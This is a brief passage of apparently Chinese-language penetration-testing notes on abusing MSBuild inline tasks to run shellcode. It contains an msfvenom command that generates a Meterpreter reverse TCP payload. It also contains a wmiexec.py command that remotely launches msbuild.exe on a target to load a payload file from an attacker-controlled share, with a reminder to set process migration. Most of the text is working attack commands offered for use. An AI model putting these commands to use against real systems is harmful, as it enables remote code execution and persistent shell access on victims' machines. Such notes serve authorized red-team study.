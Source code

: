 	链接
	https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml
	>msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=12138 -f csharp
	远程执行
	>wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
	要设置自动迁移进程
![image](/assets/Pentest_Note/master/img/74.png)